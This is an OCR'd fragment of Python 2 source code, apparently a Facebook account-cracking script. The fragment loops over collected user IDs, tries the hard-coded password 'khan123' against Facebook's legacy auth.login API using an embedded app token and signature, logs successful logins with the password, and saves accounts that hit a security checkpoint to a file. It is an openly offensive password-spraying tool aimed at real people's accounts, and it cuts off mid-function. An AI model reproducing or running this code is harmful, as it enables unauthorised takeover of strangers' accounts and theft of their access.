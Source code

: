 	print "\033[1;96m \033[1;93mTotal IDs \033[1;91m: \033[1;97m"+str(len(id))

	jalan('\033[1;96m \033[1;93mStarting \033[1;97m...')

	titik = ['.   ','..  ','... ']

	for o in titik:

		print("\r\033[1;96m[\033[1;97m \033[1;96m] \033[1;93mCracking \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)

	print

	print('\x1b[1;96m \x1b[1;93mTo Stop Process Press CTRL Then Press z')

	print 42*"\033[1;96m="

	

			

	def main(arg):

		global cekpoint,oks

		user = arg

		try:

			os.mkdir('out')

		except OSError:

			pass

		try:

			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

			b = json.loads(a.text)

			pass1 = ('khan123')

			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

			q = json.load(data)

			if 'access_token' in q:

				print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1

				oks.append(user+pass1)

			else:

				if 'www.facebook.com' in q["error_msg"]:

					print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m |\x1b[1;97m ' + pass1

					cek = open("out/checkpoint.txt", "a")
